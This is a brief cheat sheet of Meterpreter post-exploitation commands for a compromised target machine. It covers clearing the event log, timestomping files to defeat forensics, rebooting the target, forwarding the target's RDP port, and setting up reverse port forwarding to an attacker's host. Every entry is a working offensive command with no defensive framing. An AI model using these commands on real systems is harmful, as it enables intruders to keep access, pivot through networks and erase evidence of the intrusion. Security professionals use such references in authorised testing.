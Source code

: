 ## Clear the event log on the target machine.
```
clearev
```

## Change file attributes, such as creation date (antiforensics measure).
```
timestomp
```

## Reboot the target machine.
```
reboot
```

## meterpreter - Display portfwd features
```
meterpreter > help portfwd
```

## meterpreter - Add port forwarding rule
```
meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>
```

## meterpreter - Add reverse port forwarding
```
meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>
```

## meterpreter - Background session
```
meterpreter > bg
```
